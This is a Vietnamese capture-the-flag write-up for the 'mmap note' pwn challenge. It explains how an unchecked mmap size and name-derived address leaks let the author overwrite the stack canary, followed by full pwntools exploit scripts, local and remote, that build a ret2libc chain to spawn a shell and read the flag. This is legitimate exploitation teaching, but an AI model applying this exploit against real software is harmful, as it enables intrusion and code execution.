# mmap note



---

## overview



Đề bài cho file với đầy đủ cơ chế bảo vệ. File không bị stripped nên sẽ dễ dịch ngược hơn.



Đây là một chương trình để tạo note và ghi note, một dạng rất hay gặp trong các bài về heap. Nhưng thay vì dùng malloc chương trình sẽ dùng mmaap để cấp phát, có 1 số khác biệt bất lợi. Có 5 lựa chọn :

* 1.Add
* 2.edit
* 3.show
* 4.delete
* các lựa chọn khác sẽ call exit



Trong hàm readchoice có một lỗi bufferoverflow có thể dùng để khai thác, nhưng ta phải bypass được stack canary bằng cách leak canary hoặc overwrite giá trị gốc của canary.



Hàm add sẽ tạo một mapped memory, ở đây có 1 số lỗi, khi xác định kích thước
nếu kích thước lớn hơn 0x2000 thì in ra `"Why your note take so much space? Add another one..."` và kết thúc hàm add. Tuy nhiên giá trị nhập vào vẫn được lưu thẳng vào `size[]` dẫn đến ta có thể sử dụng lỗi này để nhập vào dữ liệu lớn hơn 0x2000 byte bằng hàm `edit()` và unmmap với size lớn hơn size ta map ban đầu.



Hàm generate_name() tạo name cho note vừa được map từ địa chỉ của note đó. Vậy nên từ tên ta có thể suy ra địa chỉ của note đó.



Hàm `delete()` unmmap địa chỉ của note được chọn với size của note đó. Hai hàm còn lại là `show()` và `edit()` sẽ in dữ liệu và sửa dữ liệu tương ứng.

---

## Khai thác

Như đã nói ở trên thì ta phải tìm cách bypass canary để các thể tận dụng lỗi BOF ở hàm `readchoice()`. Vì không thể leak được canary nên ta chỉ có thể overwrite nó. 



Khi chạy chương trình, canary được lưu tại một phân vùng phía trước libc. Như vậy mình cần phải làm sao để có thể tạo được 1 note mà được map vào phía trước phân vùng này. Sau đó thay đổi size của note và sử dụng `edit()` để overwrite canary. Một điều quan trọng nữa, phải leak được libc address được sử dụng trong chương trình. Khi lần đầu tiên mình tạo một note có size 0x1000, vùng nhớ này luôn được map vào giữa của ld. Khoảng cách từ libc và ld không đổi nên mình có thể tính được địa chỉ libc. Vì mình có được địa chỉ của note từ tên của nó.



Sau khi đã leak được libc từ một note có size 0x1000, mình thử tạo tiếp một note có size 0x2000 thì may mắn note này được map vào liền trước libc và vùng nhớ có chứa canary. Giờ chỉ cần sửa size sau đó overwrite canary. Tuy nhiên khi overwrite canary cần cẩn thận vì phía trước canary có 1 số struct nếu sai giá trị sẽ dẫn đến crash chương trình.

### script exploit local

```python
from pwn import *

# Many built-in settings can be controlled via CLI and show up in "args"
# For example, to dump all data sent/received, and disable ASLR
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
break main
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './chall_patched'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
#context.log_level = 'debug'
# Delete core files after finished
context.delete_corefiles = True

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================
p = start()
libc = ELF('./libc.so.6')

def add(idx, size, data):
	p.sendlineafter(b'choice : ', b'1')
	p.sendlineafter(b': ', str(idx).encode())
	p.sendlineafter(b': ', str(size).encode())
	p.sendafter(b': ', data)

def edit(idx, data):
	p.sendlineafter(b'choice : ', b'2')
	p.sendlineafter(b': ', str(idx).encode())
	p.sendafter(b': ', data)

def show(idx):
	p.sendlineafter(b'choice : ', b'3')
	p.sendlineafter(b'? ', str(idx).encode())

def delete(idx):
	p.sendlineafter(b'choice : ', b'4')
	p.sendlineafter(b': ', str(idx).encode())

def change_size(idx, size):
	p.sendlineafter(b'choice : ', b'1')
	p.sendlineafter(b': ', str(idx).encode())
	p.sendlineafter(b': ', str(size).encode())
# leak libc address
alphabet = b'MmApIsSafeDoNtYOuThink'

add(0, 0x1000, b'a\n')
p.recvuntil(b'name: ')
name = p.recvuntil(b'\n')[:-1]
log.info("name: " + name.decode())
mmaped_addr = 0
bit = 0
for i in name:
	mmaped_addr += alphabet.index(i) << bit
	bit += 4
log.info("Leak mmaped address: " + hex(mmaped_addr))
libc.address = mmaped_addr - 0x261000
rop = ROP(libc)
log.info("libc address: " + hex(libc.address))
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret_gadget = rop.find_gadget(['ret'])[0]
system = libc.symbols['system']
binsh = next(libc.search(b'/bin/sh'))
log.info("system: " + hex(system))
log.info("binsh: " + hex(binsh))
log.info("pop rdi: " + hex(pop_rdi))

# overwrite canary
add(1, 0x2000, b'a'*0x2000)
change_size(1, 0x2800)

payload = cyclic(0x26b0) + p64(libc.address + 0x21a580)
payload = payload.ljust(0x2748, b'a')
payload += p64(libc.address - 0x28b8)
payload += p64(libc.address - 0x28c0)
payload = payload.ljust(0x2768, b'a')
payload += p64(0)
payload += b'\n'
'''
Phía trước canary có 1 số giá trị cần phải giữ nguyên, nên ta phải xem giá trị ban đầu của nó là gì
sau đó ghi lại giá trị đó vào đúng địa chỉ
'''
edit(1, payload)
# ret2libc
payload = b'a'*0x18
payload += p64(0)
payload += b'a'*8
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(ret_gadget)
payload += p64(system)

p.sendline(payload)
p.recvuntil(b'choice : ')
p.interactive()
```



exploit thành công trên local

---

## remote exploit

Có lẽ server sử dụng kernel khác so với local của mình nên khi mình thử trên remote thì không thành công. Mình có kiểm tra thử thì thấy khi mình thực hiện `mmap` note thứ 2 thì nó trả về địa chỉ khác so với local. So với khoảng cách từ địa chỉ đó đến địa chỉ bắt đầu của ld và libc thì mình đoán nó được map vào phía trước ld chứ ko phải libc như trên local.


Vì có sự khác nhau nên có lẽ khoảng cách từ địa chỉ từ note thứ nhất đến địa chỉ bắt đầu của libc sẽ khác so với local. Vì vậy mình cần tìm cách khác để leak libc address. Well ở đây mình nghĩ có 2 cách, cách thứ nhất đó là đoán:D. Có thể thấy tại local thì địa chỉ của note được map phía trước libc sẽ cách địa chỉ libc 1 đoạn 0x5000, 0x2000 cho size của note và 0x3000 do chương trình map trước đó. Còn như ảnh trên thì địa chỉ note có idx là 2 có địa chỉ các libc 0x7000. Vậy nên cần chỉnh lại offset. Cách thứ 2 là lợi dụng việc có thể sửa được size của note, để có thể unmap phân vùng chỉ đọc phía sau note idx 0. Sau đó sử dụng `edit()` và `show()` để leak một địa chỉ của libc trong phần vùng của ld.



---

### script

```python
from pwn import *

# Many built-in settings can be controlled via CLI and show up in "args"
# For example, to dump all data sent/received, and disable ASLR
# ./exploit.py DEBUG NOASLR


def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)


# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
break main
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './chall_patched'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'debug'
# Delete core files after finished
context.delete_corefiles = True

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================
p = start()
libc = ELF('./libc.so.6')
alphabet = b'MmApIsSafeDoNtYOuThink'

def add(idx, size, data):
	p.sendlineafter(b'choice : ', b'1')
	p.sendlineafter(b': ', str(idx).encode())
	p.sendlineafter(b': ', str(size).encode())
	p.sendafter(b': ', data)
	p.recvuntil(b'name: ')
	name = p.recvuntil(b'\n')[:-1]
	mmaped_addr = 0
	bit = 0
	for i in name:
		mmaped_addr += alphabet.index(i) << bit
		bit += 4
	log.info(("idx:" + str(idx) + " address: ").ljust(20,' ') + hex(mmaped_addr))
	return mmaped_addr

def edit(idx, data):
	p.sendlineafter(b'choice : ', b'2')
	p.sendlineafter(b': ', str(idx).encode())
	p.sendafter(b': ', data)

def show(idx):
	p.sendlineafter(b'choice : ', b'3')
	p.sendlineafter(b'? ', str(idx).encode())

def delete(idx):
	p.sendlineafter(b'choice : ', b'4')
	p.sendlineafter(b': ', str(idx).encode())

def change_size(idx, size):
	p.sendlineafter(b'choice : ', b'1')
	p.sendlineafter(b': ', str(idx).encode())
	p.sendlineafter(b': ', str(size).encode())
# leak libc address

# cach 1 guessing :V
#libc.address = add(0, 0x1000, b'a\n') - 0x264000

# cach 2 unmmap and leak
## 1. unnmap phan vung r--p phia sau note idx 0
add(0, 0x1000, b'a\n')
change_size(0, 0x3000)
delete(0)
## 2. leak libc
add(0, 0x2000, b'a\n')
change_size(0, 0x2018)
edit(0,b'a'*0x2018)
show(0)
p.recvuntil(b'a'*0x2018)
libc.address = u64(p.recv(6).ljust(8,b'\x00')) - 0x174ba0

rop = ROP(libc)
log.info(("libc address: ").ljust(20,' ') + hex(libc.address))
ld_address = libc.address + 0x22a000
log.info(("ld address: ").ljust(20,' ') + hex(ld_address))
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret_gadget = rop.find_gadget(['ret'])[0]
system = libc.symbols['system']
binsh = next(libc.search(b'/bin/sh'))

add(1, 0x2000, b'a\n')
# overwrite canary
add(2, 0x2000, b'a'*0x2000)

change_size(2, 0x2800)

payload = cyclic(0x26b0) + p64(libc.address + 0x21a580)
payload = payload.ljust(0x2748, b'a')
payload += p64(libc.address - 0x28b8)
payload += p64(libc.address - 0x28c0)
payload = payload.ljust(0x2768, b'a')
payload += p64(0)
payload += b'\n'
'''
Phía trước canary có 1 số giá trị cần phải giữ nguyên, nên ta phải xem giá trị ban đầu của nó là gì
sau đó ghi lại giá trị đó vào đúng địa chỉ
'''
edit(2, payload)
# ret2libc
payload = b'a'*0x18
payload += p64(0)
payload += b'a'*8
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(ret_gadget)
payload += p64(system)

p.sendline(payload)
p.recvuntil(b'choice : ')
p.sendline(b'cat /home/ctf/flag.txt')
p.interactive()
```

## Flag



`ASCI{M4st3r_0F_Mm4p_pl3as3_tak3_th1s_fl4g_as_4n_hon0r_fr0m_w1ldc4t_eb816b596d}`